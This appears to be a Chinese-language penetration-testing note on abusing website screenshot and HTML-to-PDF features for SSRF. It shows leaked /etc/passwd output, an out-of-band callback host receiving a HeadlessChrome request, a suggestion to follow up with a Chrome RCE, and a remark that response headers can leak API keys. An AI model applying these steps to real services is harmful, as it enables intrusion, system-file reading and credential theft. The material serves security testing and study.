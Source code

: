```bash
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```

### 网站截图 / 网站转换为PDF
> 很多服务 都有可能存在漏洞， 网站截图，获取网站资源，图片编辑器，视频编辑器等可以导入外部资源的地方都可能存在SSRF
1. 发现网页有截图功能（HTML转为PDF等）,使用https://bpjonsjopuamfpeycdiowg0hl0b2fjvok.oast.fun
```html
    <h1 class="text-center">Screenshot Tool</h1>
    <h3 class="text-center">Take a screenshot of any website</h3>

    <div class="row" style="margin-bottom: 20px">
        <div class="col-md-6 col-md-offset-3">
                        <div class="row">
                <form method="post">
                    <div class="col-xs-9">
                        <input name="url" class="form-control" placeholder="https://www.example.com">
                    </div>
                    <div class="col-xs-3">
                        <input type="submit" class="btn btn-success" value="Go">
                    </div>
                </form>
            </div>
        </div>
    </div>
        <div class="text-center"><a href="/data/a0d832c64a8070b1d176945ee803b72e.jpg" target="_blank">Download Screenshot</a></div>
```
2. 查看Http请求,发现存在低版本chrome ，可以打一下chrome rce ⭐⭐
	1. https://mp.weixin.qq.com/s/hj8mv_GHr2o7ysQvFDs8UA  
```
GET / HTTP/2.0
Host: bpjonsjopuamfpeycdiowg0hl0b2fjvok.oast.fun
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.165 Safari/537.36
```
3. 响应头中 有时会包含API KEY
